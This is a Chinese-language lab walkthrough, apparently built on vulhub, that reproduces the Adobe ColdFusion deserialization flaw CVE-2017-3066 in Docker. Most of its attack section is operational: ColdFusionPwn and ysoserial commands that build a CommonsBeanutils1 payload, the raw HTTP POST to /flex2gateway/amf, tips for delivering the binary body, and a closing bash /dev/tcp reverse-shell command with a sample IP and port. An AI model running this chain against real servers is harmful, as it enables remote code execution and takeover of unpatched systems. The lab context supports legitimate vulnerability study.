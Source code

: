 ### Adobe-ColdFusion-反序列化漏洞（CVE-2017-3066）



### 漏洞原理

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe  ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update  11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## 复现漏洞

### 启动环境

进入路径为

```
cd /root/vulhub/coldfusion/CVE-2017-3066
1
```

搭建及运行漏洞环境：

```
docker-compose build && docker-compose up -d
1
```

此本安装环境需要大概1G+的数据下载，网络不好的起来走动走动吧:)
![1](Adobe ColdFusion反序列化漏洞CVE-2017-3066/1.png)
 环境启动成功后，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。
![2](Adobe ColdFusion反序列化漏洞CVE-2017-3066/2.png)

## 漏洞复现

### 生成POC

使用[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC。
 [下载ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn/releases/download/0.0.1/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)
 [下载ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
 【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser
1
```

【再注意】上面的命令在Win10下我没有执行成功，错误提示为`错误: 找不到或无法加载主类 com.codewhitesec.coldfusionpwn.ColdFusionPwner`。在Kali成功生成了?

### 发送POC

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
1234567891011
```

![3](Adobe ColdFusion反序列化漏洞CVE-2017-3066/3.png)

### 发送POC内容

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200
![4](Adobe ColdFusion反序列化漏洞CVE-2017-3066/4.png)
 正确发送方式为：
 右击选择**Paste From File**，上传**poc.cer**文件
 ![5](Adobe ColdFusion反序列化漏洞CVE-2017-3066/5.png)

 【感谢豆老师?的纠错，以及科普编码问题】?
 再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存
![6](Adobe ColdFusion反序列化漏洞CVE-2017-3066/6.png)

#### 检验POC

##### 进入容器

###### 通过DockerID进入容器

```
docker exec -it 容器ID /bin/bash  
1
```

###### 查看容器ID

```
docker ps
1
```

![7](Adobe ColdFusion反序列化漏洞CVE-2017-3066/7.png)

###### 通过Docker名字进入容器

```
docker-compose exec 容器名字 bash
1
```

比如本次环境中是：

```
docker-compose exec coldfusion bash
1
```

##### 查看/tmp/

```
ls /tmp/
1
```

发现`/tmp/success`已成功创建：
![8](Adobe ColdFusion反序列化漏洞CVE-2017-3066/8.png)
 将POC改成[反弹命令](http://jackson.thuraisamy.me/runtime-exec-payloads.html)，成功拿到shell：
![9](Adobe ColdFusion反序列化漏洞CVE-2017-3066/9.png)

### 反弹Shell

#### 格式

```
bash -i >& /dev/tcp/ip/port 0>&1
1
```

#### 例子

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```